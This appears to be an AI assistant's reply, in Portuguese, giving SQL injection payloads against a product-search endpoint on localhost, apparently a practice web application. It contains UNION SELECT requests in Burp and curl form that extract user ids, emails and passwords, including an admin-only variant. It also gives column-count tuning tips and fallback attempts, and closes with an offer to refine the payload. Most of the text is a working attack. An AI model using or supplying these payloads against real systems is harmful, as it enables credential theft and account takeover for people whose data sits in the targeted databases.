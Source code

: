 Aqui está o payload no formato Burp Suite (GET):

## 🔍 Payload para SQL Injection - Burp Suite Format

```http
GET /rest/products/search?q=')) UNION SELECT '1',id,email,password,'2fa',null,null,null,null FROM Users-- HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```

## 📋 Variações do payload:

### **Versão básica:**
```http
GET /rest/products/search?q=')) UNION SELECT '1',id,email,password,'2fa',null,null,null,null FROM Users-- HTTP/1.1
```

### **Com mais colunas se necessário:**
```http
GET /rest/products/search?q=')) UNION SELECT '1',id,email,password,'2fa',null,null,null,null,null,null FROM Users-- HTTP/1.1
```

### **Para ver apenas admin:**
```http
GET /rest/products/search?q=')) UNION SELECT '1',id,email,password,'2fa',null,null,null,null FROM Users WHERE role='admin'-- HTTP/1.1
```

## 🛠️ Usando com curl:

```bash
curl "http://localhost:3000/rest/products/search?q='))%20UNION%20SELECT%20'1',id,email,password,'2fa',null,null,null,null%20FROM%20Users--"
```

## 📝 Explicação do payload:

- **`'))`** - Fecha a query original
- **`UNION SELECT`** - Injeta nova query
- **`'1'`** - Preenche a primeira coluna (string)
- **`id,email,password,'2fa'`** - Dados que queremos extrair
- **`null,null,null,null`** - Preenche colunas restantes
- **`FROM Users`** - Tabela alvo
- **`--`** - Comenta o resto da query

## 🔄 Se não funcionar, tente estas variações:

**Tentativa 2:**
```http
GET /rest/products/search?q=')) UNION SELECT 1,id,email,password,'2fa',6,7,8,9 FROM Users-- HTTP/1.1
```

**Tentativa 3 (com diferentes números de colunas):**
```http
GET /rest/products/search?q=')) UNION SELECT '1',id,email,password,'2fa' FROM Users-- HTTP/1.1
```

## 💡 Dica importante:

Verifique quantas colunas a query original retorna testando:
```http
GET /rest/products/search?q=')) UNION SELECT null,null,null,null,null,null,null,null,null-- HTTP/1.1
```

E vá aumentando/diminuindo os `null` até não dar erro.

Quer que eu ajuste algo específico no payload?
